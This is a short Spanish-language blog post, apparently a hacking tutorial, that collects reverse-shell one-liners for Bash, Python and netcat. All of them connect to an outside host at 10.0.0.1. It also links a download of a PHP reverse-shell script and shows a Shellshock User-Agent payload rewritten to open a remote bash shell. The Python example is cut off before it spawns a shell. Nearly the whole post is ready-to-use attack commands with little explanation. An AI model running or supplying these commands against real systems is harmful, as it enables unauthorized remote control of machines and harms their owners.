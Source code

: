 ```yaml
---
date: 2021-09-15T00:22:05.000Z
layout: post
comments: true
title: Reverse Shell
subtitle: 'y como obtener acceso'
description: >-
image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
optimized_image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
category: ciberseguridad
tags:
  - explotación
  - linux
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```

# Ejemplos principales:
### Bash
```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Python
```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```
### Netcat
```bash
#Versiones actualizadas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ nc -e /bin/sh 10.0.0.1 1234

#Versiones más antiguas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## PHP
En PHP se puede ingresar un archivo malicioso que devuelva una reverse shell.

>[Descarga archivo aquí](https://download1510.mediafire.com/fvfmudo0p5gg/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz)

### Ejemplo de uso
En burpsuite se podría ocupar en ataques como Shellshock, por ejemplo:
```bash
#Se ocupa como base un proceso como este...
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
```bash
#Acá se adapta el proceso...
User Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
